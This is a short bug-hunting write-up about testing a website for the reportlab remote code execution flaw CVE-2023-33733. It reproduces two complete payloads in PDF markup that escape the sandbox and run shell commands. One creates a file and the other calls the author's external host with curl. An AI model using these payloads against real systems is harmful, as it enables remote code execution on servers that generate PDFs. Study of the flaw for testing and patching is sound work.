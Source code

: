 Ok so this exactly matched with the error message that was shown in the webiste.


I was already aware of the RCE cve which came out recently in reportlab.



Elyas shared full details how the payload works so if you are interested checkout his repo: https://github.com/c53elyas/CVE-2023-33733

```html

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

He explained the sandbox bypass line by line you could try executing in the python console itself along to understand it better.

I tried understanding this payload after reading his writeup it still looked so difficult for me to understand , I then also tried to execute it in python console line by line which later helped a lot.


-----------------------------

After I confirmed that reportlab is in use.I used the following payload to confirm if it indeed using the vulnerable version or not.

```bash
curl https://myhost.com
```

```html
<para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('curl https://myhost.com') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>
```

Nope it didn't worked, the pdf was succesffuly generated but no pingbacks were sent to my server.
I changed curl command to ping,wget in hope of getting a dns interaction atleast but nope.

At this moment  I questioned are they really using the vulnerable version?

I needed to find the answer for this, which could only be done by using a local setup.

Using the same sample vulnerable code which Elyas shared in his repo I could confirm the exploit locally:
https://github.com/c53elyas/CVE-2023-33733/blob/master/code-injection-poc/poc.py
